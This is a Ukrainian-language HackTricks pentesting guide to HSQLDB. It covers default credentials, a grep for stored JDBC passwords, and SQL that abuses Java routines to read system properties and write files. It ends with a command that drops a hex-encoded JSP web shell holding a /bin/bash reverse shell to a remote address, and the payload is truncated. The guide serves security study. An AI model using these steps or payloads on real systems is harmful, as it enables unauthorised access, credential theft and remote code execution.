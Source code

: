 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Основна інформація

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** є провідною SQL реляційною базою даних, написаною на Java. Вона пропонує невеликий, швидкий багатопотоковий та транзакційний механізм бази даних з таблицями в пам'яті та на диску, а також підтримує вбудовані та серверні режими.

**Порт за замовчуванням:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Інформація

### Налаштування за замовчуванням

Зверніть увагу, що за замовчуванням ця служба, ймовірно, працює в пам'яті або прив'язана до localhost. Якщо ви її знайшли, ви, напевно, експлуатували іншу службу і намагаєтеся підвищити привілеї.

Налаштування за замовчуванням зазвичай `sa` з порожнім паролем.

Якщо ви експлуатували іншу службу, шукайте можливі облікові дані, використовуючи
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Зверніть увагу на назву бази даних - вона знадобиться для підключення.

# Збір інформації

Підключіться до екземпляра БД, завантаживши [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) та витягнувши `hsqldb/lib/hsqldb.jar`. Запустіть GUI додаток \(eww\) за допомогою `java -jar hsqldb.jar` і підключіться до екземпляра, використовуючи виявлені/слабкі облікові дані.

Зверніть увагу, що URL підключення виглядатиме приблизно так для віддаленої системи: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Хитрощі

## Рутини мови Java

Ми можемо викликати статичні методи класу Java з HSQLDB, використовуючи рутини мови Java. Зверніть увагу, що викликаний клас повинен бути в класовому шляху програми.

JRT можуть бути `функціями` або `процедурами`. Функції можна викликати через SQL оператори, якщо метод Java повертає одну або кілька SQL-сумісних примітивних змінних. Вони викликаються за допомогою оператора `VALUES`.

Якщо метод Java, який ми хочемо викликати, повертає void, нам потрібно використовувати процедуру, викликану за допомогою оператора `CALL`.

## Читання властивостей системи Java

Створіть функцію:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Виконати функцію:
```text
VALUES(getsystemproperty('user.name'))
```
Ви можете знайти [список системних властивостей тут](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Запис вмісту у файл

Ви можете використовувати `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java гаджет, розташований у JDK \(автоматично завантажується в клас-паті програми\), щоб записувати шістнадцяткові коди на диск через користувацьку процедуру. **Зверніть увагу на максимальний розмір 1024 байти**.

Створіть процедуру:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Виконати процедуру:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
